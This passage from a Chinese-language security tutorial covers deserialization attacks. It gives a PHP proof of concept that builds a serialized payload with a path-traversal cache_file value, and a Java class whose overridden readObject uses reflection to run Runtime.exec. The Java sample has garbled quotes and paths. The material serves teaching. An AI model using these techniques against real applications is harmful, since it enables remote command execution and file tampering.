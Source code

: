 POC如下：

```php
<?php
	class Test1{
		protected $obj;
		function __construct(){
			$this->obj = new Test2;
		}
	}

	class Test2{
		public $cache_file = '../../../../test.php';
	}
	
	$evil = new Test1();
	echo urlencode(serialize($evil));
?>
```

### java反射机制

反射 (Reflection) 是 Java 的特征之一，它允许运行中的 Java 程序获取自身的信息，并且可以操作类或对象的内部属性。通过反射，我们可以在运行时获得程序或程序集中每一个类型的成员和成员的信息。通过Java 反射机制，我们可以动态地创建对象并调用其属性，这样的对象的类型在编译期是未知的。

反射的核心是 JVM 在运行时才动态加载类或调用方法/访问属性，它不需要事先（写代码的时候或编译期）知道运行对象是谁。

Java 反射主要提供以下功能：

在运行时判断任意一个对象所属的类；
在运行时构造任意一个类的对象；
在运行时判断任意一个类所具有的成员变量和方法（通过反射甚至可以调用private方法）；
在运行时调用任意一个对象的方法
重点：是运行时而不是编译时

反射机制在java反序列化漏洞的利用过程中有很重要的作用。

### java反序列化利用

Java 序列化过程依赖于 ObjectOutputStream 类中 writeObject 方法，而反序列化的过程是依赖于 ObjectOutputStream 类中 readObject 方法。**若用户重写了自定义的 readObject 方法，那么就有可能产生反序列化的时候命令执行的漏洞点。**或者用户精心构造恶意的类的序列化字符串，那么在反序列化实例化这个类时就会执行其中的恶意代码（比如rmi远程代码）。

利用java反射重写 readObject 方法：

反射机制的存在使得我们可以越过Java本身的静态检查和类型约束，在运行期直接访问和修改目标对象的属性和状态。Java反射的四大核心是 Class，Constructor，Field，Method。通过反射的方法重写readObject：

```java
//ReflectionCalcObject.java
package com.l1nk3r.reflect;
import java.io. * ;
import java.lang.reflect.Method;
class ReflectionCalcObject implements Serializable {
    public String name;
    //重写readObject()方法
    private void readObject(java.io.ObjectInputStream in ) throws IOException,
    ClassNotFoundException { in .defaultReadObject(); //调用原始的readOject方法
        try {
            //通过反射方法执行命令；
            Method method = java.lang.Runtime.class.getMethod(“exec”, String.class);
            Object result = method.invoke(Runtime.getRuntime(), “open / Applications / Calculator.app / “);
        } catch(Exception e) {
            e.printStackTrace();
        }
    }
}
```
